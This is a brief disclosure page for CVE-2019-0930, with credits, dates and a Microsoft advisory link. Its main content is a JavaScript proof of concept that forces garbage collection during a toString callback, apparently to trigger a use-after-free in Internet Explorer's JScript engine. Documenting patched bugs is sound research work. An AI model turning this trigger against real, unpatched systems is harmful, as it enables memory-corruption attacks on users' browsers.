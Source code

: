 # CVE-2019-0930

- Report: Dec 2018
- Fix: May 2019
- Credit: Krishnakant Patil and Siddhant Badhe - Project Srishti

## PoC

```js
var extern_arr_vars = [];
for (var i = 0; i < 16; i++) {
    extern_arr_vars[i] = new Array();
}
extern_arr_vars[10].toString = function() { CollectGarbage(); };
for(n = 0;n < 3;n++) {
    try { 
        extern_arr_vars[5].toExponential();
    } catch(e) {  }
}
for (var i = 0; i < 2 ; i++) { 
    extern_arr_vars[15][i] = extern_arr_vars[10];
}
extern_arr_vars[15].join(new Date().getVarDate());
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0930)